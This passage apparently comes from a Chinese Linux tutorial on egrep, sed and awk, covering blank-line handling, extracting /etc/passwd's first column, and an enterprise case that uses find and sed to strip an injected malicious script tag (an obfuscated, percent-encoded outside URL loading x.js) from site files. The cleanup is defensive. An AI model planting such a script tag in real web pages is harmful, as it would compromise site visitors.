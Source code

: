 \[root@oldboy ~\]\# egrep "^\s\*$" test.txt -n

2:

5:

7:

\[root@oldboy ~\]\# egrep "^\s\*$" test.txt -nv

1:asdfsfasfasf

3:asdfsf

4:sdfasfsa

6:sdfasdfas

8:asdfsad

\[root@oldboy ~\]\# sed -rn '/^\[ \t\]\*$/{=;p}' test.txt

2

5

7

\[root@oldboy ~\]\# sed -r '/^\[ \t\]\*$/d' test.txt

asdfsfasfasf

asdfsf

sdfasfsa

sdfasdfas

asdfsad

### 1.8  空行的处理

egrep -v "^$"  /oldboy/test.txt

sed '/^$/d'  /oldboy/test.txt

awk '/^$/' /oldboy/test.txt

awk '!/^$/' /oldboy/test.txt

### 1.9  企业案例

\[root@oldboy oldboy\]\# find /root/oldboy -type f\|xargs sed -i '/&lt;script language=javascript src=http:\/\/%4%66E%78%6F%72%67%2E%70%6F\/x.js?google\_ad=93x28\_ad&gt;&lt;\/script&gt;/d'

\[root@oldboy oldboy\]\# find /root/oldboy -type f\|xargs sed -i 's\#&lt;script language=javascript src=[http://%4%66E%78%6F%72%67%2E%70%6F/x.js?google\_ad=93x28\_ad&gt;&lt;/script&gt;\#\#g](http://%4%66E%78%6F%72%67%2E%70%6F/x.js?google_ad=93x28_ad></script>##g)'

### 1.10  取出/etc/passwd中的第一列

egrep -o "^\[a-zA-Z0-9\]+" /etc/passwd
